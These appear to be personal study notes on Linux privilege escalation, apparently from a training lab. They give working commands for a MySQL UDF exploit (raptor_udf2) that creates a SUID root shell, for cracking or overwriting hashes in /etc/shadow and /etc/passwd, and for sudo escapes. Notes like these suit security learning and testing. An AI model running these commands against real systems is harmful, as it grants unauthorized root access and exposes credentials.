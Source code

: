 # Linux PrivEsc

> Sujit Konapur, November 13th, 2020

----------------------------------------

## Service Exploits
+ MySQL service is running as root, use an exploit that leverages User Defined Functions (UDFs) to run system commands as root.
+ Downloaded `exploit/1518` from exploitdb.
+ Compiled using:
	- `gcc -g -c raptor_udf2.c -fPIC`
	- `gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc`
+ Connect to MySQL service using:
	- `mysql -u root`
+ Execute following commands in the MySQL shell to create a UDF `do_system`:
	- `use mysql;`
	- `create table foo(line blob);`
	- `insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));`
	- `select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';`
	- `create function do_system returns integer soname 'raptor_udf2.so';`
+ Use the function to copy /bin/bash ans set SUID:
	- `select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');`
+ Exit MySQL shell and run `/tmp/rootbash -p` to gain root.

## Weak File Permissions 
### Readable /etc/shadow
+ The contents of `/etc/shadow` file are readable.
+ Store the hash of root user to a file and crack using john and rockyou.

### Writable /etc/shadow
+ The `/etc/shadow` file is writable.
+ Generate a new password hash:
	`mkpasswd -m sha-512 newpasswordhere`
+ Edit `/etc/shadow` file and replace with new hash.
+ Switch to root and login using new password.

### Writable /etc/passwd
+ The `/etc/passwd` file is writable.
+ Generate a new password hash using:
	`openssl passwd newpasswordhere`
+ Edit the `passwd` file and replace the x with new password.
+ Switch to root user and enter new password to login.

## Sudo
### Shell Escape Sequences
+ Listed the programs which sudo allows user to run: `sudo -l`
+ Used GTFOBins to get root.
